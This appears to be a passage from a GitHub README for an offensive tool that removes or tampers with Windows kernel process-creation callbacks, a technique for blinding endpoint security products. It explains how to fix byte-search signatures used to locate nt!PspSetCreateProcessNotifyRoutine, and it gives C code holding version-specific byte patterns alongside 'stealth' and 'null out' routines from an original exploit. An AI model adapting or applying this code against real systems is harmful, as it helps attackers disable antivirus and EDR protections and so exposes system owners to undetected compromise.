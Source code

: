### Fixing the bytes for the byte search for your windows OS

The change needs to be done on both `findprocesscallbackroutine` and `findprocesscallbackroutinestealth`

`findprocesscallbackroutinestealth` is the function that i introduced which will modify the function inside the entry.

`findprocesscallbackroutine` is the original function from the original exploit which will null out the entry.

The original code will do a `byte search` to find the location of the function that is using the callback table (`nt!PspSetCreateProcessNotifyRoutine`) starting from a exported function close to it. 

First you need double check the bytes did not change for your windows OS.

<pre>
struct Offsets {
    <span style="color: red;">DWORD64 process;</span>
    DWORD64 image;
    DWORD64 thread;
    DWORD64 registry;
};

struct Offsets getVersionOffsets() {
    wchar_t value[255] = { 0x00 };
    DWORD BufferSize = 255;
    RegGetValue(HKEY_LOCAL_MACHINE, L"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion", L"ReleaseId", RRF_RT_REG_SZ, NULL, &value, &BufferSize);
    wprintf(L"[+] Windows Version %s Found\n", value);
    auto winVer = _wtoi(value);
    switch (winVer) {
        //case 1903:
    case 1909:
        return { 0x8b48cd0349c03345, 0xe8d78b48d90c8d48, 0xe8cd8b48f92c8d48, 0x4024448948f88b48 };
    case 2004:
        return { 0x8b48cd0349c03345, 0xe8d78b48d90c8d48, 0xe8cd8b48f92c8d48, 0x4024448948f88b48 };
    case 2009:
        return { <span style="color: red;">0x7340fe8341f63345</span>, 0x8d48d68b48c03345, 0x48d90c8d48c03345, 0x4024448948f88b48 };
    default:
        wprintf(L"[!] Version Offsets Not Found!\n");

    }

}
</pre>

The first DWORD is the callback related to the process creation and it contains the bytes that the program will search for.

 we know that the function `nt!PspSetCreateProcessNotifyRoutine` is using the callback array.

The idea is to find some bytes close to the `lea` command that is using the callback array we are interested in, and the bytes that we will use, they need to be static so we can rely on them for byte searching and not change after each reboot.
